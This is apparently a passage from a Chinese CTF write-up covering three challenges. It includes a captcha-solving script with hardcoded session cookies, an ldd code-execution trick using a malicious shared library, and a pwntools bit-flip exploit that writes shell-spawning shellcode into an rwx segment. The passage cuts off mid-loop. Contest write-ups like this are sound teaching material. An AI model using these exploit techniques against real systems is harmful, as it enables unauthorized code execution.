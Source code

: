 ```python
	p = torch.Tensor(p)
	out = net(p)
	out = torch.round(out.data)
	return out


headers = {'cookie': 'session=eyJ0b2tlbiI6IjQ2NzpNRU1DSUdmdFZYZnhtRGJZU2pZYWhPZDZqOFA1NWZ1L3AvQW91bVlIYmt3b0xPa2dBaDljQ2ZyL2ZPd2NwNXg0V09WTm5NZVZxMG04QzFLM1hYNWpTSmdYN1htYiJ9.X52Umg.NhmFd1ir4dSIJ5C_KHSu7Qchjjc; PHPSESSID=ts0d4m1h0oh17td9t6oler138r'}

while True:
	s = requests.get('http://202.38.93.111:10150/captcha_shuffled.bmp', headers=headers).content
	open('tmp.bmp', 'wb').write(s)
	s = chk(Image.open('tmp.bmp'))
	print(s)
	param = {}
	for i in range(62):
		param['r_%s' % alphabet[i]] = int(round(float(s[i])))

	r = requests.get('http://202.38.93.111:10150/result', params=param, headers=headers)
	if '请重新尝试' in r.text:
		continue
	print(r.text)
	break
```

## 动态链接库检查器

搜索 `ldd arbitrary code execution` 可以搜到两个博客： https://catonmat.net/ldd-arbitrary-code-execution 和 http://klamp.works/2016/04/15/code-exec-ldd.html，但是他们的 ldd 版本都比较老，题目中的 ldd 版本已经不能再指定任意 interpreter。

又经过一番搜索，搜到了 https://sourceware.org/bugzilla/show_bug.cgi?id=22851。这个就直接可以用。把执行的命令改成 `cat /flag`，然后 `make evil`，再提交 libevil.so 即可。

## 超精准的宇宙射线模拟器

可以翻转一个 bit。动态调试，发现 exit 的地址被改成了 401070，而 401170 是个 ret，于是可以先把这边改掉。

运行时发现有一个 rwx 的段，而 401570 在其中，所以可以在里面写 shellcode，最后跳过去执行。

```python
from pwn import *

context.arch='amd64'
context.log_level='debug'

r=remote('202.38.93.111',10231)
r.recvuntil('Please input your token: ')
r.send('xxx:xxx\n')

def flip(x,y):
	r.recvuntil('Where do you want to flip?')
	r.send(hex(x)+' '+str(y)+'\n')

def write(pos,old,new):
	for i in range(8):
		if (old^new)>>i&1:
			flip(pos,i)

flip(0x404039,0)

shellcode=asm(shellcraft.sh())
target=0x401570
for i in range(len(shellcode)):
```